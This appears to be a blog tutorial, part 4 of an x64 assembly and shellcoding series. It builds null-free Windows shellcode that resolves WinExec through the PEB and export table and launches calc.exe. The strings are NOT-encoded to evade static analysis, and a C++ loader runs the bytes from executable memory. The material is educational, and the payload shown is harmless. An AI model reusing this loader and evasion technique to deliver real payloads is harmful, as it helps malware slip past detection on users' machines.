 ```yaml
---
title:  "x64 Assembly & Shellcoding 101 - Part 4"
header:
  teaser: "/assets/images/asm-part4.png"
categories:
  - Shellcoding
  - Assembly
  - Debugging
tags:
  - Shellcoding
  - x64
  - x64dbg
  - '2024'
  - nasm
  - assembly
  - debugging
---
```


Hey all!  This will be a shorter post today, so I'll get right to it.  Let's talk shellcode basic encoding functionality built in to x64 assembly instructions.  What we're really talking about here is bitwise operations.  I'm going to use the `NOT` bitwise command to 'encode' all strings within our assembly code. This way, it's harder for static analysis efforts to succeed when searching for strings 😸 I took the liberty of trimming up the code we've been using to execute calc.exe using WinExec.  I'll likely go back and retroactively clean up some code in the previous posts in this series at some point too.  

Here's the portion of code with the `NOT` instruction added after the string.  I have already performed a NOT against the original unencoded string so these `NOT` instructions are to perform decoding operations.
```nasm
mov rax, 0x6F9C9A87BA9196A8   ; WinExec 'encoded'
not rax

mov rax, 0x9A879AD19C939E9C    ; encoded calc.exe ;)
not rax
```
**and the full code below:**
```nasm
;nasm -fwin64 [x64findkernel32.asm]
;ld -m i386pep -o x64findkernel32.exe x64findkernel32.obj
BITS 64
SECTION .text
global main
main:
sub rsp, 0x28
and rsp, 0xFFFFFFFFFFFFFFF0
xor rcx, rcx             ; RCX = 0
mov rax, [gs:rcx + 0x60] ; RAX = PEB
mov rax, [rax + 0x18]    ; RAX = PEB->Ldr
mov rsi,[rax+0x10]       ;PEB.Ldr->InMemOrderModuleList
mov rsi, [rsi]
mov rsi,[rsi]
mov rbx, [rsi+0x30]      ;kernel32.dll base address
mov r8, rbx              ; mov kernel32.dll base addr into r8
;Code for parsing Export Address Table
mov ebx, [rbx+0x3C]           ; Get Kernel32 PE Signature (offset 0x3C) into EBX
add rbx, r8                   ; Add signature offset to kernel32 base. Store in RBX.
xor rcx, rcx                  ; Avoid null bytes from mov edx,[rbx+0x88] by using rcx register to add
add cx, 0x88ff
shr rcx, 0x8                  ; RCX = 0x88ff --> 0x88
mov edx, [rbx+rcx]            ; EDX = [&NewEXEHeader + Offset RVA ExportTable] = RVA ExportTable
add rdx, r8                   ; RDX = kernel32.dll + RVA ExportTable = ExportTable Address
mov r10d, [rdx+0x14]          ; Number of functions
xor r11, r11                  ; Zero R11 before use
mov r11d, [rdx+0x20]          ; AddressOfNames RVA
add r11, r8                   ; AddressOfNames VMA
mov rcx, r10                  ; Set loop counter
mov rax, 0x6F9C9A87BA9196A8   ; WinExec 'encoded'
not rax
shl rax, 0x8
shr rax, 0x8
push rax
mov rax, rsp	
add rsp, 0x8
kernel32findfunction:             ; Loop over Export Address Table to find WinApi names
    jecxz FunctionNameNotFound    ; Loop around this function until we find WinExec
    xor ebx,ebx                   ; Zero EBX for use
    mov ebx, [r11+rcx*4]          ; EBX = RVA for first AddressOfName
    add rbx, r8                   ; RBX = Function name VMA / add kernel32 base address to RVA and get WinApi name
    dec rcx                       ; Decrement our loop by one, this goes from Z to A
    mov r9, qword [rax]                ; R9 = "our API"
    cmp [rbx], r9                      ; Compare all bytes
    jz FunctionNameFound               ; If match, function found
	jnz kernel32findfunction
FunctionNameNotFound:
int3
FunctionNameFound:                ; Get function address from AddressOfFunctions
   inc ecx                        ; increase counter by 1 to account for decrement in loop
   xor r11, r11
   mov r11d, [rdx+0x1c]           ; AddressOfFunctions RVA
   add r11, r8                    ; AddressOfFunctions VMA in R11. Kernel32+RVA for addressoffunctions
   mov r15d, [r11+rcx*4]          ; Get the function RVA.
   add r15, r8                    ; Found the Winexec WinApi and all the while skipping ordinal lookup! w00t!
   xor rax, rax
   push rax
   mov rax, 0x9A879AD19C939E9C    ; encoded calc.exe ;)
   not rax
   push rax
   mov rcx, rsp	                 
   xor rdx, rdx
   inc rdx
   sub rsp, 0x30
   call r15                       ; Call WinExec
```

**Here's a lame trick you can use if you want to decode / encode using `NOT` without having to use assembly.  Use the calculator!  Yes, we're going to use the calculator. I can't seem to get enough of it, it seems. 😸**

![image](https://github.com/user-attachments/assets/0c1103af-9a3d-44d6-99bb-32ec86422c1b)

**This gives us the original, unencoded string:**

![image](https://github.com/user-attachments/assets/8c6c934c-198e-4e88-805b-704b9e78ba96)

**This is nice because you can quickly decode and encode your strings to make sure everything is in working order before committing to your code.  As always, we want to strip this down to just shellcode, make sure it has no NULLs, and execute it!  We'll start with the basic objdump output to work off of:**

```nasm
winexec_nonulls.o:     file format pe-x86-64


Disassembly of section .text:

0000000000000000 <main>:
   0:	48 83 ec 28          	sub    $0x28,%rsp
   4:	48 83 e4 f0          	and    $0xfffffffffffffff0,%rsp
   8:	48 31 c9             	xor    %rcx,%rcx
   b:	65 48 8b 41 60       	mov    %gs:0x60(%rcx),%rax
  10:	48 8b 40 18          	mov    0x18(%rax),%rax
  14:	48 8b 70 10          	mov    0x10(%rax),%rsi
  18:	48 8b 36             	mov    (%rsi),%rsi
  1b:	48 8b 36             	mov    (%rsi),%rsi
  1e:	48 8b 5e 30          	mov    0x30(%rsi),%rbx
  22:	49 89 d8             	mov    %rbx,%r8
  25:	8b 5b 3c             	mov    0x3c(%rbx),%ebx
  28:	4c 01 c3             	add    %r8,%rbx
  2b:	48 31 c9             	xor    %rcx,%rcx
  2e:	66 81 c1 ff 88       	add    $0x88ff,%cx
  33:	48 c1 e9 08          	shr    $0x8,%rcx
  37:	8b 14 0b             	mov    (%rbx,%rcx,1),%edx
  3a:	4c 01 c2             	add    %r8,%rdx
  3d:	44 8b 52 14          	mov    0x14(%rdx),%r10d
  41:	4d 31 db             	xor    %r11,%r11
  44:	44 8b 5a 20          	mov    0x20(%rdx),%r11d
  48:	4d 01 c3             	add    %r8,%r11
  4b:	4c 89 d1             	mov    %r10,%rcx
  4e:	48 b8 a8 96 91 ba 87 	movabs $0x6f9c9a87ba9196a8,%rax
  55:	9a 9c 6f 
  58:	48 f7 d0             	not    %rax
  5b:	48 c1 e0 08          	shl    $0x8,%rax
  5f:	48 c1 e8 08          	shr    $0x8,%rax
  63:	50                   	push   %rax
  64:	48 89 e0             	mov    %rsp,%rax
  67:	48 83 c4 08          	add    $0x8,%rsp

000000000000006b <kernel32findfunction>:
  6b:	67 e3 16             	jecxz  84 <FunctionNameNotFound>
  6e:	31 db                	xor    %ebx,%ebx
  70:	41 8b 1c 8b          	mov    (%r11,%rcx,4),%ebx
  74:	4c 01 c3             	add    %r8,%rbx
  77:	48 ff c9             	dec    %rcx
  7a:	4c 8b 08             	mov    (%rax),%r9
  7d:	4c 39 0b             	cmp    %r9,(%rbx)
  80:	74 03                	je     85 <FunctionNameFound>
  82:	75 e7                	jne    6b <kernel32findfunction>

0000000000000084 <FunctionNameNotFound>:
  84:	cc                   	int3

0000000000000085 <FunctionNameFound>:
  85:	ff c1                	inc    %ecx
  87:	4d 31 db             	xor    %r11,%r11
  8a:	44 8b 5a 1c          	mov    0x1c(%rdx),%r11d
  8e:	4d 01 c3             	add    %r8,%r11
  91:	45 8b 3c 8b          	mov    (%r11,%rcx,4),%r15d
  95:	4d 01 c7             	add    %r8,%r15
  98:	48 31 c0             	xor    %rax,%rax
  9b:	50                   	push   %rax
  9c:	48 b8 9c 9e 93 9c d1 	movabs $0x9a879ad19c939e9c,%rax
  a3:	9a 87 9a 
  a6:	48 f7 d0             	not    %rax
  a9:	50                   	push   %rax
  aa:	48 89 e1             	mov    %rsp,%rcx
  ad:	48 31 d2             	xor    %rdx,%rdx
  b0:	48 ff c2             	inc    %rdx
  b3:	48 83 ec 30          	sub    $0x30,%rsp
  b7:	41 ff d7             	call   *%r15
```

**Let's get only the shellcode:**

- nasm -fwin64 winexec_nonulls.asm -o winexec_nonulls.o

- for i in $(objdump -D winexec_nonulls.o \| grep "^ " \| cut -f2); do echo -n "\x$i" ; done

**Now, pop it into your c++ program and let er rip!**

```c++
#include <windows.h>
#include <iostream>

unsigned char shellcode[] =
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41"
"\x60\x48\x8b\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36"
"\x48\x8b\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31"
"\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01"
"\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3"
"\x4c\x89\xd1\x48\xb8\xa8\x96\x91\xba\x87\x9a\x9c\x6f\x48\xf7"
"\xd0\x48\xc1\xe0\x08\x48\xc1\xe8\x08\x50\x48\x89\xe0\x48\x83"
"\xc4\x08\x67\xe3\x16\x31\xdb\x41\x8b\x1c\x8b\x4c\x01\xc3\x48"
"\xff\xc9\x4c\x8b\x08\x4c\x39\x0b\x74\x03\x75\xe7\xcc\xff\xc1"
"\x4d\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x45\x8b\x3c\x8b\x4d"
"\x01\xc7\x48\x31\xc0\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87"
"\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\x31\xd2\x48\xff\xc2\x48"
"\x83\xec\x30\x41\xff\xd7";


int main() {

    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == nullptr) {
        std::cerr << "Memory allocation failed\n";
        return -1;
    }
    memcpy(exec_mem, shellcode, sizeof(shellcode));
    auto shellcode_func = reinterpret_cast<void(*)()>(exec_mem);
    shellcode_func();
    VirtualFree(exec_mem, 0, MEM_RELEASE);
    return 0;
}
```
**Forgot to mention, if you compile the exe and search for strings, you won't find winexec or calc, well...you'll see winexec_nonull since that's the filename, but not `WinExec` and `calc.exe`.  In a real world setting I'd change that. 😄  Check it out:**

![image](https://github.com/user-attachments/assets/8fcc5f09-2fd0-4905-9d31-e49b87f8b727)

And that's a wrap folks!  Maybe eventually I'll get around to moving beyond WinExec and onto other apis lol.  It'll happen...but until then take it easy!
